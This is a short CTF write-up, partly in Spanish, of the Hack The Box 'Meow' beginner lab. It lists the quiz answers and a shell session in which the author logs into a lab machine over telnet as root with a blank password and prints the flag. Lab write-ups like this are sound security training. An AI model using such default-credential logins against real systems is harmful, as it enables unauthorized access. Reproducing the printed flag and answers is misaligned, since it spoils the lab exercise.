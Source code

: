 ```yaml
---
title: Meow
date: 2025-04-2 12:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, meow]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```


Este primer reto de HackTheBox es una especie de examen de para comenzar en esta plataforma, 
consiste en una serie de preguntas y tareas a completar. Conectarse a la VPN que proporcionan y responder a las preguntas, 
para acabar realizando una captura de bandera simple. 

To attack the target machine, you must be on the same network.
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.
If you don't see an update after 2-3 minutes, refresh the page.
Connect to Pwnbox

Connect using Pwnbox

RECOMMENDED

A preconfigured, browser-based virtual machine with all the hacking tools you need pre-installed.
Free 2h of Pwnbox - Upgrade to VIP+ for Unlimited Access
Connect to OVPN

Connect using OpenVPN

Use your own machine for hacking. Download your VPN configuration and connect from your own environment.
Having Trouble? - Introduction to Lab Access

Spawn Machine

Spawn the target machine and the IP will show here

Task 1

What does the acronym VM stand for?

>virtual machine

Task 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

>terminal

Task 3

What service do we use to form our VPN connection into HTB labs?

>openvpn

Task 4

What tool do we use to test our connection to the target with an ICMP echo request?

>ping 

Task 5

What is the name of the most common tool for finding open ports on a target?

>nmap

Task 6

What service do we identify on port 23/tcp during our scans?

>telnet

Task 7

What username is able to log into the target over telnet with a blank password?

>root

Submit Flag

``` shell
pablo☠office meow$ telnet 10.129.76.225 
Trying 10.129.76.225...
Connected to 10.129.76.225.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root

root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

Submit root flag [achievement](https://www.hackthebox.com/achievement/machine/2336390/394)

Una manera muy elegante de asegurarte de que los usuarios tengan un mínimo de nivel y conocimiento para iniciarte en tu plataforma. 

